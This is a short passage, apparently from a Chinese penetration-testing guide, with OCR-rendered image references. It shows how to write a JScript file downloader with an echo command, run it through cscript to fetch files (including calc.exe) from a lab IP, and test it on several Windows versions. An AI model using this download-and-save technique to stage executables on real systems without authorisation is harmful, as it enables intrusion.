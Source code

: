 ```text
echo var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");WinHttpReq.Open("GET",WScript.Arguments(0),false);WinHttpReq.Send();BinStream = new ActiveXObject("ADODB.Stream");BinStream.Type = 1;BinStream.Open();BinStream.Write(WinHttpReq.ResponseBody);BinStream.SaveToFile(WScript.Arguments(1)); > down.js
 
## 使用cscript调用

cscript /nologo down.js http://172.16.175.1/robots.txt D:\test\Hello.txt
cscript /nologo down.js http://172.16.175.1/calc.exe D:\test\calc.exe
```

### 3、兼容性测试

![Windows2003](../../.gitbook/assets/image%20%28390%29.png)

![Windows2008](../../.gitbook/assets/image%20%28384%29.png)

![win10](../../.gitbook/assets/image%20%28401%29.png)

